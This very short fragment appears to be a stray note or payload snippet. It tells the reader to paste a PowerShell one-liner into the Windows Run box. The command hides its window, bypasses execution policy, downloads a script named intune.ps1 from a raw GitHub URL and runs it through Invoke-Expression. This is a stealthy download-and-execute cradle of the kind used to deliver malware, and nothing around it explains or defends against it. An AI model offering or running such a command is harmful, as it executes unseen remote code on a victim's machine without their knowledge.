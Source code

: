 use code in run box
powershell -w h -NoP -NonI -Exec Bypass $pl = iwr https://raw.githubusercontent.com/mannno24/test/main/intune.ps1?dl=1?dl=1; invoke-expression $pl
